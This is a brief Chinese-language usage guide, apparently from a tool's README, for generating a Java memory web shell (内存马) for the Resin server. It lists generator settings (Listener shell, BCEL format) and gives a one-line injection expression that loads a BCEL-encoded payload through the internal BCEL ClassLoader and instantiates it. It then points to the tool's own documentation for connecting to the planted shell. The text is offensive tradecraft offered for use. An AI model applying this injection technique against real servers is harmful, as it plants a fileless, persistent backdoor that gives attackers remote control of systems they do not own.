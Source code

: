 1、选择 输出格式为 BCEL ，生成 paylaod
```text
server_type=Resin
shell_type=Listener
gadget_type=NONE
format_type=BCEL
```

![](./img/1708847681909.png)

2、利用 BCEL 打内存马

```text
new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("BCEL编码后的paylaod").newInstance();
```

3、参考使用说明进行连接

![](./img/1708847705412.png)
